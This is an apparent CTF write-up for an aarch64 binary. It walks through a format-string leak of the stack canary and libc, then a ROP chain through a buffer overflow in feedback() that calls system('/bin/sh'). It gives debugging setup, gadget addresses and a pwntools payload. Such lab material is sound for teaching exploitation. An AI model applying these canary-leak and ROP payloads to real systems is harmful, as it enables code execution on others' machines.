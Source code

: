 ![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/821f9720-c70c-4f8e-b171-361268854f69)

This was the first time I faced a challenge that was using aarch64 architecture. Unfortunately, I wasn't able to solve this during the CTF but I read the writeups and was able to try it myself.

NOTE : The solve script is the official writeup from the author. This is just my attempt at explaining how to solve this challenge

To be able solve this challenge, we first must set up the environment for the challenge.

## Setup

For debugging, we can use 

```
gdb-multiarch: sudo apt-get install gdb-multiarch
```

To run the binary, we need to install

```
qemu: sudo apt-get install qemu-user-static
libs: sudo apt-get install libc6-arm64-cross installs to /usr/aarch64-linux-gnu/
Running the binary
```

Next, we need to extract the libc from the Dockerfile.

```
docker run -v "`pwd`:/chal" -it <HASH> bash
```

Replace <HASH> with the hash value from the Dockerfile and it should set you up in the environment and mount files in your current directory into the /chal folder. Next, go into the chal folder and run `ldd ./chal` to look for the libc. After locating it, now you must run `cp /lib/x86_64-linux-gnu/<YOUR_LIBC> .` and copy the libc to the current directory. Use the command `exit` to leave the docker instance

### Debugging

```
qemu-aarch64-static -g 1234 ./chal
```

Run this command and pass in the -g flag which enables debugging mode

```
$gdb-multiarch
file chal
target remote :1234
```

Now, we will connect to our remote debugging session at port 1234


## Initial Analysis

```
└─$ checksec --file=chal         
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   108 Symbols       No    0               2               chal
```

Stack Canary and NX has been enabled

<details>
<summary>get_address()</summary>
  
```c
void get_address(void)

{
  int iVar1;
  char acStack_30 [40];
  long local_8;
  
  local_8 = ___stack_chk_guard;
  printf("\tCould we have an address to ship said appendage? ",0);
  __isoc99_scanf(&DAT_00400ea0,acStack_30);
  printf("\nThanks, we will ship to: ");
  printf(acStack_30);
  iVar1 = putchar(10);
  clear_buffer(iVar1);
  if (local_8 - ___stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,local_8 - ___stack_chk_guard);
  }
  return;
}
```

</details>

<details>
<summary>feedback()</summary>
  
```c
void feedback(void)

{
  char buff [104];
  long local_8;
  
  local_8 = ___stack_chk_guard;
  puts("Care to leave some feedback?!");
  fgets(buff,256,_stdin);
  puts("Thanks!");
  if (local_8 - ___stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,local_8 - ___stack_chk_guard);
  }
  return;
}
```

</details>

From the results of the decompilation, it is clear that we need to leak the stack canary using the format string vulnerability and overflow the feedback function into a ret2libc 

## Exploitation

So after entering the %p format, we found out that we can get a canary leak at %19$p and a libc leak at %21$p

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/a1aca2b8-af69-439a-bd8d-1c3371a8dd02)

Using gdb to inspect the memory

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/97707e63-a6c0-41cf-8cee-c3be236d0d34)

We found that the leak is located inside __libc_start_main at offset 152. We can easily calculate the libc address using

```py
libc_start_main = libc_start_main_leak - 152
libc.address = libc_start_main - libc.symbols['__libc_start_main']
```

## ROP

Before we go into the ROP, we need to first understand the registers in aarch64.

### Registers

x0 to x7 are used to pass arguments, similar to rdi, rsi and rdx
x29 is similar to rbp
x30 is stores the return address

### Function Prologue, Epilogue and Stack Layout

For this part, you can read this [writeup](https://d0ublew.github.io/writeups/imaginaryctf-2023/pwn/generic-rop-challenge/index.html)

Now, we need to look for suitable gadgets that can pass in "/bin/sh" into the x0 register and call system()

```
0x00000000004008f4 # 0x00000000004008f4 : ldr x19, [sp, #0x10] ; ldp x29, x30, [sp], #0x20 ; ret
0x0000000000400910 # 0x0000000000400910 : mov x2, sp ; ldp x29, x30, [sp], #0x10 ; ret
0x000000000040091c : ldr x0, [x2, #0x10] ; ldp x29, x30, [sp], #0x10 ; ret
```

Fortunately for us, there gadgets are available which lets us mov a value we specify into x2, then load the value from x2 (at a offset of 0x10) into x0

```py
payload = flat([
    'a' * 104,
    canary,
    'b' * 8,    #x29
    mov_x2_sp,  #x30
    'c' * 8,
    canary,
    'd' * 8,    #x2     #x29
    ldr_x19,            #x30
    binsh,
    ldr_x0_x2,
    'e' * 24,
    libc.symbols['system']
])
```

This is what our payload will look like

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/e9800280-2260-4923-88f8-8450d01f0d8f)

First, we will overflow with the canary, b*8 for x29 and mov_x2_sp for x30. So when main returns, it will return to mov_x2_sp and increment $sp by 32, so the $sp will now point to dddddddd

`mov_x2_sp = 0x0000000000400910 # 0x0000000000400910 : mov x2, sp ; ldp x29, x30, [sp], #0x10 ; ret`

Since $sp point to dddddddd, it will be mov into x2 so x2 = dddddddd, then it will load dddddddd and ldr_x19 into x29, x30 respectively. Then $sp will increment by 16 and will now point to binsh

`ldr_x19 = 0x00000000004008f4 # 0x00000000004008f4 : ldr x19, [sp, #0x10] ; ldp x29, x30, [sp], #0x20 ; ret`

Since $sp point to binsh, it will load sp + 16 into x19, so now x19 will point to eeeeeeee. Then, it will load binsh and ldr_x0_x2 into x29, x30 respectively. Then $sp will increment by 32 and will now point to the last 8 eeeeeeee

`ldr_x0_x2 = 0x000000000040091c # 0x000000000040091c : ldr x0, [x2, #0x10] ; ldp x29, x30, [sp], #0x10 ; ret`

Since x2 is pointing to dddddddd, it will load dddddddd + 16, which is binsh into x0. Then, it will load eeeeeeee and libc.symbol['system'] into x29, x30 respectively. Then return to system because its in x30

